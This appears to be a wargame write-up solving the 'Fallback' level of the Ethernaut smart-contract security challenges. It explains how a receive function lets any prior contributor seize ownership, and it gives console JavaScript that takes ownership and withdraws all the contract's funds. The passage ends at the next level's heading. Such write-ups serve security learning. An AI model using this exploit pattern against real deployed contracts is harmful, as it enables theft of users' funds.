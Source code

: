 # Ethernat-Solution-and-Explanation
## 1. Fallback ★☆☆☆☆
### Level Target

1. Take ownership of the contract.
2. Withdraw all funds from the contract. (Only the owner can do so)

### Break Down & Analyze

1. Two ways to take ownership:
    1. Contribute more eth than the owner does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, and the owner already has 1000 ether of contribution when the contract is built. (unfair, right?)
    2. So the other way to hack the contract is from receive function, in order to call receive, you’ll need to satisfy two conditions.
        * send some eth when calling receive.
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds:
    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    2. Once you become the owner, it is effortless to withdraw all the funds!

### Detailed Steps (work through the console)

```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm that you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
let owner = await contract.owner() // get who is the owner now
owner === player // check if you're the owner
await contract.withdraw() // take all the funds out from the contract!!!
```

## 2. Fallout ★☆☆☆☆
